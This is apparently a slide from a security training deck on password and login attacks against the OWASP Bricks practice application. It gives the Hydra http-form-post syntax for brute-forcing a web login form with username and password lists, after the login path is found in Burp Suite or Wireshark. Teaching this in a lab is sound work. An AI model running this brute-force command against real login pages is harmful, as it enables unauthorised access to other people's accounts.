

# Password/Login Attacks
Target: OWASP Bricks: Login 3
Hydra(cli)
Intercept a packet with Burpsuite intercept or wireshark
Look for the path of the login next to the POST identifier
Syntax: hydra <target ip/address> http-form-post “/path/to/login:username=^USER^&passwd=^PASS^&submit=submit:Wrong user name or password.” -L usernames.txt (or -l for single user) -P passwords.txt (or -p for single password)